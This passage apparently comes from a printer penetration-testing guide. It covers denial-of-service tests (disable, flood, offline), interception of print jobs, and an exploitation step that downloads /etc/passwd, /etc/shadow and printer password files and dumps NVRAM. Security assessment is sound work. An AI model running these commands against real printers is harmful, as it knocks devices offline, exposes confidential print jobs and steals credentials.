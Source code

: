 ### Test 7: Denial of Service

**Objective**: Test if printer can be disabled

```bash
# Test various DoS vectors
> disable
> offline "Out of service"
> flood 100000
> dos_display
> dos_jobs
> dos_connections
```

**Vulnerable if:**
- ✅ Printer stops accepting jobs
- ✅ Printer becomes unresponsive
- ✅ Printer requires manual recovery
- ✅ No DoS protection

**Risk Level**: 🟡 MEDIUM

---

### Test 8: Job Capture

**Objective**: Test if print jobs can be intercepted

```bash
# Enable job retention
> hold

# Enable capture mode
> capture

# Send test print job from another computer
# Check if job was captured
```

**Vulnerable if:**
- ✅ Jobs can be held
- ✅ Jobs can be captured
- ✅ No encryption on jobs
- ✅ Captured jobs contain sensitive data

**Risk Level**: 🔴 CRITICAL

---

## 💣 Exploitation Phase

### Exploit 1: Password Extraction

```bash
# Download system files
> download /etc/passwd
> download /etc/shadow
> download /rw/var/sys/passwd

# Dump NVRAM (may contain passwords)
> nvram dump

# Check configuration files
> download /etc/config.xml
> cat /etc/config.xml
```
